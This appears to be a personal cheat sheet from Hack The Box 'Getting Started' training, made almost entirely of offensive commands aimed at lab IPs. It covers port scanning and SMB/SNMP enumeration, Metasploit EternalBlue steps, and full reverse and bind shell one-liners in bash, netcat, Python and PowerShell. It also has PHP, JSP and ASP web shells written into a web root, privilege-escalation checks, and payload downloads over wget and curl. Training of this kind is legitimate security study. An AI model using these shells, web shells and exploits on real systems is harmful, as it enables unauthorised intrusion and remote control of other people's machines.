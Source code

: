 # GettingStarted(HTB)
Lessons and Tutorials Covered

## NCAT
# netcat can be used to connect to any listening port and interact with the service running on that port.
> ncat ip port 
> nc -nv ip port

## NMAP
# port scanner
> nmap -sV -sC -p- 10.129.42.253
> nmap -sV --open -oA nibbles_initial_scan <ip address>
> whatweb --no-errors 10.10.10.0/24
> nmap -sV --script=banner -p21 10.10.10.0/24
> nmap -sC -sV -p21 10.129.42.253
> nmap --script smb-os-discovery.nse -p445 10.10.10.40
> nmap -A -p445 10.129.42.253

> locate scripts/citrix
> nmap --script <script name> -p<port> <host>
  
## Connecting 
  # ftp =   ftp -p 10.129.42.253
  # smb =   smbclient -N -L \\\\10.129.42.253
    smbclient \\\\10.129.42.253\\users
    smbclient -U bob \\\\10.129.42.253\\users
  # snmp =   snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0
    snmpwalk -v 2c -c private  10.129.42.253 
    onesixtyone -c dict.txt 10.129.42.254
  
  
## WEB Enumb
  # banner grabbing
  > curl -IL https://www.inlanefreight.com
  > whatweb 10.10.10.121
  > whatweb --no-errors 10.10.10.0/24
  # scan web directories
  > gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
  # install seclists = git clone https://github.com/danielmiessler/SecLists && sudo apt install seclists -y
  # Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file.
  > gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
  
## Exploit Scan
  # sudo apt install exploitdb -y
  > searchsploit openssh 7.2
  ## Metasploit
  # Metasploit Framework (MSF) contains exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets
  > msfconsole
    > search exploit eternalblue
    > use exploit/windows/smb/ms17_010_psexec
    > set RHOSTS 10.10.10.40
    > check
    > exploit
  
## Reverse Shell
  # on my computer
  > nc -lvnp 1234
  > nc 10.10.10.1 1234
  # on host
  > bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
  > powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
## BIND Shell
  #
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
  > python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
## Once in
  > python -c 'import pty; pty.spawn("/bin/bash")'
  
## WEB SHELLS
Apache	/var/www/html/   Nginx	/usr/local/nginx/html/   IIS	c:\inetpub\wwwroot\   XAMPP	C:\xampp\htdocs\
php = <?php system($_REQUEST["cmd"]); ?>
jsp = <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
asp = <% eval request("cmd") %>
  # eg = echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
  # browser http://SERVER_IP:PORT/shell.php?cmd=id    or curl http://SERVER_IP:PORT/shell.php?cmd=id
  
## Privilege Escalation
# ./linpeas.sh
  > dpkg -l
  > sudo -l
  > sudo -u user /bin/echo Hello World!
  # /etc/crontab     /etc/cron.d      /var/spool/cron/crontabs/root
  
  
## Transfer Files
  # cd /tmp
  > python3 -m http.server 8000
  > wget http://10.10.14.1:8000/linenum.sh
  > curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  >  scp linenum.sh user@remotehost:/tmp/linenum.sh
  # BASE64
  > base64 file -w 0
  > user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file
  


* File Inclusion / Directory Traversal (HTB Academy)
* Linux Fundermentals (HTB Academy)
* Login Attacks (HTB Academy)
* Metasploit (HTB Academy)
* Nmap (HTB Academy)
* Web Enumeration
* Windows Fundermentals (HTB Academy)

##### Connect to VPN
> sudo openvpn user.ovpn
